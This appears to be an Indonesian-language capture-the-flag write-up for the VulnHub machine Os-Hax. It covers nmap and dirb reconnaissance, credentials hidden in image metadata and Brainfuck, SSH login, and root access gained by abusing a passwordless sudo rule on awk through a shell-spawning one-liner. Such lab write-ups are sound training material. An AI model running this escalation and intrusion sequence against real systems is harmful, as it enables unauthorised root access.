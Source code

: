 ```yaml
---
title: "[VulnHub] Os-Hax WriteUp"
date: 2019-04-20T22:14:10+07:00
categories:
  - blog
tags: 
  - vulnhub
  - writeup
  - awk
---
```


## Setup 
Edit file `/etc/hosts` menjadi seperti dibawah agar static web mesin bisa berjalan.
```
#127.0.0.1      localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
#::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

<IP_mesin> localhost
```

Untuk mencari IP mesin bisa dengan menggunakan `nmap` atau `netdiscover`

## Information Gathering
### nmap
`nmap -sV -sC -p- localhost -oN initial.nmap -v`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 43:0e:61:74:5a:cc:e1:6b:72:39:b2:93:4e:e3:d0:81 (RSA)
|   256 43:97:64:12:1d:eb:f1:e9:8c:d1:41:6d:ed:a4:5e:9c (ECDSA)
|_  256 e6:3a:13:8a:77:84:be:08:57:d2:36:8a:18:c9:09:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
MAC Address: 08:00:27:E2:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### dirb
`dirb http://localhost /usr/share/wordlists/dirb/common.txt`
```
---- Scanning URL: http://localhost/ ----
==> DIRECTORY: http://localhost/css/
==> DIRECTORY: http://localhost/html/
==> DIRECTORY: http://localhost/img/
+ http://localhost/index.html (CODE:200|SIZE:3135)
==> DIRECTORY: http://localhost/js/
+ http://localhost/server-status (CODE:403|SIZE:274)
==> DIRECTORY: http://localhost/wordpress/
```

### wpscan
Karena server menjalankan wordpress maka kita bisa coba cari celah wordpress dengan `wpscan`.
`wpcan --url http://localhost/wordpress/`
Namun dari hasil scan dgn menggunakan `wpscan` tidak ditemukan hal yang menarik, server pake wordpress versi terbaru, tema bawaan, dan no plugin.  

Kembali ke ~~laptop~~ `dirb`, buka direktori `/img` 
!['/img'](/os-hax/img.png){: img_content }
Ada file menarik yaitu `flaghost.png`, download file tsb lalu examine dengan `exiftool`.

### exiftool
Exiftool adalah software open-source berbasis perl untuk membaca, mengedit, dan memanipulasi metadata dari berbagai macam tipe file. [_exiftool.org_](https://exiftool.org/) 
>Metadata is "data that provides information about other data". In other words, it is "data about data.[_wikipedia.org_](https://en.wikipedia.org/wiki/Metadata)

```
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Make                            : passw@45
Image Size                      : 387x98
Megapixels                      : 0.038
```

ada string `passw@45` di meta `Make`. *Note*: sebelum menggunakan `exiftool` bisa coba pakai command `strings` terlebih dahulu untuk mengecek apakah ada string yang disematkan ke file gambar tsb.  

Kira-kira apakah teks `passw@45` tersebut ? :thinking: kalo password login ssh dimana usernamenya?, lalu coba ekstrak string dari gambar lain di direktori `/img` tapi ternyata *zonk* :man_facepalming:.  

Lalu entah dapet ilham darimana saya coba untuk masukin teks tersebut ke url bar dan ternyata itu clue direktori :man_facepalming: :man_facepalming: .
![passw](/Os-Hax/passw.png){: img_content }  
Nah di dalam direktori tersebut ada file `flag2.txt` dg bahasa brainfuck.
```
i+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ +++++ .<+++ +[->- ---<]
>--.- --.<+ +++++ [->-- ----< ]>--- -.<++ +[->+ ++<]> +++++ .<+++ ++[->
+++++ <]>.+ +.+++ +++++ .---- --.<+ ++[-> +++<] >++++ .<+++ ++++[ ->---
----< ]>-.< +++[- >---< ]>--- .+.-- --.++ +.<
```

>Brainfuck is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. (_wikipedia.org_)[https://en.wikipedia.org/wiki/Brainfuck]

Next copas isi `flag2.txt` ke brainfuck interpreter macam (`copy.sh`)[https://copy.sh/brainfuck/]. Jalankan, dan kita dapat outputnya.. `web:Hacker@4514` 

## Exploitation
### User Flag
`ssh` dengan username dan password diatas lalu kita dapat flag user.
```
web@jax:~$ id
uid=1001(web) gid=1000(uname-a) groups=1000(uname-a)
web@jax:~$ ls
flag3.txt
web@jax:~$ cat flag3.txt 
   ______          ______          ____                 __ 
  / ____/____     /_  __/____     / __ \ ____   ____   / /_
 / / __ / __ \     / /  / __ \   / /_/ // __ \ / __ \ / __/
/ /_/ // /_/ /    / /  / /_/ /  / _, _// /_/ // /_/ // /_  
\____/ \____/    /_/   \____/  /_/ |_| \____/ \____/ \__/  
                                                           

MD5-HASH : 40740735d446c27cd551f890030f7c75
```
Next adalah dengan menjalankan [linenum.sh](https://github.com/rebootuser/LinEnum/) di direktori `/tmp`.

```
[+] We can sudo without supplying a password!
Matching Defaults entries for web on jax:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on jax:
    (root) NOPASSWD: /usr/bin/awk


[+] Possible sudo pwnage!
/usr/bin/awk
```
Dari hasil enumerasi diatas kita menemukan entri `sudoers` yang memungkinkan kita (user `web`) untuk menjalankan perintah `awk` secara `sudo` tanpa perlu memasukkan password.  
Hal itu dapat ditunjukkan dengan membuka '/etc/sudoers' dan melihat user privilege specification untuk user `web`.
`web     ALL= (root) NOPASSWD: /usr/bin/awk` 
Nah berhubung saya gak paham cara penggunaan `awk`, site [gtfobins](https://gtfobins.github.io/gtfobins/awk/) menjadi penyelamat.
`sudo awk 'BEGIN {system("/bin/sh")}'`
Dan kita dapat akses root :smile:
![final](/Os-Hax/final.png){: .img_content }

<hr>

Referensi: 
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)
[https://gtfobins.github.io](https://gtfobins.github.io)
